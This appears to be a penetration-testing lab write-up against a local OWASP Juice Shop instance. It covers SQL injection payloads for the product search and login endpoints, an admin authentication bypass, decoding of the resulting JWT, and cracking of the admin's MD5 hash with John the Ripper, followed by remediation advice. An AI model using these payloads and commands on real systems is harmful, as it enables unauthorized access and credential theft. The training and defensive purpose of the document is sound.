# OWASP Juice Shop — SQL Injection to Admin Access

## Overview

This project documents a hands-on penetration testing exercise against a locally hosted instance of **OWASP Juice Shop**, an intentionally vulnerable web application.

The assessment demonstrated how SQL Injection vulnerabilities in product search and authentication endpoints could lead to unauthorized data exposure, administrator authentication bypass, and the issuance of a valid administrator JSON Web Token (JWT).

Further analysis revealed that the JWT payload exposed the administrator's password hash. An offline dictionary attack using John the Ripper recovered the plaintext password, which was subsequently validated through the application's login interface.

**Attack chain:**

`SQL Injection → Authentication Bypass → Admin JWT → Authenticated API Access → Password Hash Exposure → Offline Password Cracking`

## Lab Environment

| Component | Details |
|---|---|
| Target | OWASP Juice Shop |
| Deployment | Local Docker container |
| Target URL | `http://127.0.0.1:3000` |
| Attacker OS | Kali Linux |
| HTTP interception | Burp Suite Community Edition |
| HTTP client | curl |
| JSON processing | jq |
| Hash identification | Name-That-Hash |
| Password cracking | John the Ripper |
| Wordlist | rockyou.txt |
| Database | SQLite |

**Scope:** All testing was performed against an intentionally vulnerable application running locally in an authorized laboratory environment.

---

## 1. Initial HTTP Reconnaissance

The first step was to verify that the application was reachable and inspect its HTTP responses.

```bash
curl -i http://127.0.0.1:3000/
```

The server returned:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
```

The product search API was then queried:

```bash
curl -si 'http://127.0.0.1:3000/rest/products/search?q=apple'
```

The API returned `HTTP 200 OK`, with a JSON response containing three products matching the search term.

Key command options:

- `-i`: Include HTTP response headers.
- `-s`: Suppress the progress meter and routine curl error messages.
- `-si`: Combine both options.

**Evidence**





---

## 2. Product Search SQL Injection

**Endpoint:** `GET /rest/products/search`

### Objective

Determine whether manipulating the product search parameter could alter the backend SQL query and return records normally excluded by the application.

### Payload

```sql
')) OR 1=1-- 
```

The payload was sent using curl:

```bash
curl -sG 'http://127.0.0.1:3000/rest/products/search' \
  --data-urlencode "q=')) OR 1=1-- " \
  | jq '.data | length'
```

Command breakdown:

- `-sG`: Send a GET request while suppressing the progress meter.
- `--data-urlencode`: URL-encode the supplied search parameter.
- `q=`: User-controlled product search parameter.
- `|`: Pass the HTTP response body to jq.
- `.data | length`: Count the products in the returned JSON array.

### SQL Injection Mechanism

The injected string manipulates the SQL expression:

- `'` terminates the existing string literal.
- `))` closes the relevant parentheses in the search expression.
- `OR 1=1` introduces a condition that always evaluates to true.
- `--` comments out the remainder of the SQL statement.

### Result

```text
56
```

The manipulated API request returned **56 products**, bypassing the normal search restrictions.

**Evidence**



---

## 3. Soft-Deleted Product Disclosure

The application normally excludes products whose `deletedAt` field contains a timestamp.

A soft-deleted product remains in the database but is excluded from normal application queries.

The following jq filter was used to identify these records within the SQL Injection response:

```bash
curl -sG 'http://127.0.0.1:3000/rest/products/search' \
  --data-urlencode "q=')) OR 1=1-- " \
  | jq '.data[] | select(.deletedAt != null) | {name, deletedAt}'
```

Filter explanation:

- `.data[]`: Iterate through the returned product objects.
- `select(.deletedAt != null)`: Select records marked as logically deleted.
- `{name, deletedAt}`: Display the relevant fields.

### Result

The SQL Injection returned **10 soft-deleted products** normally excluded by the application's search logic.

This demonstrated that the vulnerability affected not only search results but also the visibility restrictions imposed by the backend query.

**Evidence**



---

## 4. Login Endpoint Reconnaissance

**Endpoint:** `POST /rest/user/login`

Burp Suite Proxy was used to intercept a login attempt with invalid credentials.

Example request body:

```json
{
  "email": "test@test.com",
  "password": "12345"
}
```

The server returned:

```http
HTTP/1.1 401 Unauthorized
```

```text
Invalid email or password.
```

This established the normal response to invalid credentials before attempting input manipulation.

**Evidence**



---

## 5. SQL Error Disclosure

The intercepted request was sent to **Burp Suite Repeater**.

The email field was replaced with a single quotation mark:

```json
{
  "email": "'",
  "password": "12345"
}
```

### Result

The server returned:

```http
HTTP/1.1 500 Internal Server Error
```

The response exposed a SQLite error and the underlying SQL statement:

```sql
SELECT * FROM Users
WHERE email = '''
AND password = '827ccb0eea8a706c4c34a16891f84e7b'
AND deletedAt IS NULL
```

This revealed that the email input was directly affecting the syntax of the SQL query.

The response also disclosed implementation details, including the use of SQLite and Sequelize.

**Finding:** SQL Injection accompanied by verbose database error disclosure.

**Evidence**



---

## 6. Administrator Authentication Bypass

The login request was modified in Burp Repeater using the following payload:

```json
{
  "email": "' OR 1=1-- ",
  "password": "12345"
}
```

### Mechanism

The resulting SQL expression effectively bypassed the password condition:

```sql
SELECT * FROM Users
WHERE email = '' OR 1=1-- ' AND password = '...' AND deletedAt IS NULL
```

The always-true condition allowed the query to return an account without validating the supplied password.

### Result

The server returned:

```http
HTTP/1.1 200 OK
```

The JSON response included:

```json
{
  "authentication": {
    "token": "<ADMIN_JWT>",
    "bid": 1,
    "umail": "admin@juice-sh.op"
  }
}
```

The application issued a valid JWT associated with the administrator account without requiring knowledge of its password.

**Finding:** Authentication bypass via SQL Injection.

**Evidence**



---

## 7. Administrator JWT Analysis

The JWT returned by the login endpoint was examined using the JWT inspection functionality in Burp Suite.

A JSON Web Token consists of:

`HEADER.PAYLOAD.SIGNATURE`

The decoded header contained:

```json
{
  "typ": "JWT",
  "alg": "RS256"
}
```

Relevant fields from the decoded payload included:

```json
{
  "data": {
    "id": 1,
    "email": "admin@juice-sh.op",
    "password": "0192023a7bbd73250516f069df18b500",
    "role": "admin",
    "isActive": true,
    "deletedAt": null
  }
}
```

### Security Implications

The token contained the administrator's identity, role, and password hash.

JWT payloads are Base64URL-encoded, not encrypted. Therefore, any party possessing the token can decode and read the embedded claims.

The presence of a password hash in a JWT represents unnecessary exposure of sensitive authentication material.

The `RS256` signature protects token integrity when correctly verified; it does not provide confidentiality.

**Evidence**





---

## 8. Authenticated Administrator API Access

The JWT was saved locally as `owasp_token.txt` and supplied to an API request through the HTTP Authorization header.

```bash
curl -si 'http://127.0.0.1:3000/api/Users/1' \
  -H "Authorization: Bearer $(cat ~/owasp_token.txt)"
```

Command breakdown:

- `-si`: Display HTTP headers and response body.
- `-H`: Add a custom HTTP request header.
- `Authorization: Bearer`: Present the JWT as an authentication credential.
- `$(cat ~/owasp_token.txt)`: Read the stored token into the header value.

### Result

```http
HTTP/1.1 200 OK
Content-Type: application/json; charset=utf-8
```

The response confirmed the administrator identity:

```json
{
  "status": "success",
  "data": {
    "id": 1,
    "email": "admin@juice-sh.op",
    "role": "admin",
    "isActive": true,
    "deletedAt": null
  }
}
```

This confirmed that the token obtained through SQL Injection could be reused in a separate authenticated API request.

The test demonstrated authenticated access to the administrator's user resource, but did not attempt modification of accounts, credentials, or application data.

**Evidence**



---

## 9. Password Hash Identification

During JWT analysis, the following password hash was extracted from the administrator's token payload:

```text
0192023a7bbd73250516f069df18b500
```

The hash was examined using Name-That-Hash:

```bash
name-that-hash --text '0192023a7bbd73250516f069df18b500'
```

The tool identified several possible 128-bit hash formats, including:

- MD5
- MD4
- NTLM

**MD5 was identified as the most likely format**, which was then tested using John the Ripper.

Hash identification tools provide candidate formats; they do not recover the original password or conclusively identify an algorithm based on hash length alone.

**Evidence**



---

## 10. Offline Password Cracking

The extracted hash was saved to a local file:

```bash
echo '0192023a7bbd73250516f069df18b500' > hash.txt
```

John the Ripper was executed with the `rockyou.txt` dictionary:

```bash
john --format=raw-md5 --wordlist=~/Utils/rockyou.txt hash.txt
```

Command breakdown:

- `john`: Launch John the Ripper.
- `--format=raw-md5`: Interpret the input as an unsalted MD5 hash.
- `--wordlist=~/Utils/rockyou.txt`: Supply candidate passwords from a dictionary.
- `hash.txt`: File containing the extracted hash.

### Result

John successfully recovered:

```text
admin123
```

The password candidate produced a hash matching the MD5 value extracted from the JWT.

The recovered credential was subsequently validated through the normal Juice Shop login interface. The application displayed the administrator account and confirmed the **Password Strength** challenge.

### Security Implications

The exposed password hash used a fast, unsalted hashing algorithm and was recoverable through a dictionary attack.

This illustrates how including password hashes in application tokens can create an additional attack path even when the token itself is digitally signed.

**Evidence**



---

## 11. Findings and Impact

| Finding | Observed Impact |
|---|---|
| Product Search SQL Injection | Returned records normally excluded from search |
| Soft-Deleted Record Exposure | Exposed 10 logically deleted product records |
| Verbose SQL Error Disclosure | Revealed backend SQL queries and implementation details |
| Login SQL Injection | Bypassed password validation |
| Administrator JWT Issuance | Returned an authentication token for the administrator |
| JWT Sensitive Data Exposure | Exposed the administrator's password hash |
| Weak Password Hashing | Enabled offline recovery using John the Ripper |
| Authenticated API Access | Confirmed successful use of the admin JWT on a separate API endpoint |

**Overall impact:** The vulnerabilities demonstrated a practical path from unauthenticated input manipulation to administrator impersonation and recovery of administrator credentials.

The reported impact is limited to the operations actually demonstrated in the laboratory. Arbitrary administrative modifications, remote code execution, and operating-system compromise were not tested or established.

---

## 12. Recommended Remediation

**Prevent SQL Injection**

Use parameterized SQL queries or appropriately configured ORM query parameters. Never concatenate untrusted input directly into SQL statements.

**Harden Authentication**

Ensure authentication is based on correctly validated credentials and that database queries cannot be manipulated through user-supplied fields.

**Restrict Error Disclosure**

Return generic application errors to clients while recording detailed diagnostic information in protected server-side logs.

**Minimize JWT Claims**

Include only the claims required for authentication and authorization. Never include password hashes or other unnecessary sensitive data in JWT payloads.

**Strengthen Password Storage**

Use a dedicated password-hashing algorithm such as Argon2id, scrypt, or bcrypt with appropriate salts and cost settings instead of fast unsalted MD5.

**Enforce Authorization**

Validate access permissions for each API operation on the server side, independently of interface visibility.

---

## 13. Skills Practiced

This exercise combined multiple offensive security techniques and tools:

- HTTP reconnaissance and request analysis
- API endpoint enumeration
- Burp Suite Proxy and Repeater
- SQL Injection payload construction
- Authentication bypass
- JSON response parsing with jq
- Bash command construction and troubleshooting
- HTTP Authorization headers
- JWT decoding and analysis
- Password hash identification
- Offline dictionary attacks with John the Ripper
- Vulnerability evidence collection and technical reporting

---

## Conclusion

This laboratory demonstrated a complete, reproducible attack chain against OWASP Juice Shop.

Starting from unauthenticated API interaction, SQL Injection was used to expose normally hidden records and bypass the application's login mechanism. The server subsequently issued an administrator JWT, which was successfully reused to access an authenticated API endpoint.

Analysis of the JWT also revealed a password hash that was recovered offline using John the Ripper and validated through the application's login interface.

The exercise reinforced the importance of understanding HTTP behavior, backend SQL logic, authentication mechanisms, token security, password storage, and command-line tooling rather than relying exclusively on automated vulnerability scanners.

**Environment:** Authorized local laboratory using intentionally vulnerable software.

**Purpose:** Offensive security training, practical exploitation verification, and penetration testing portfolio documentation.
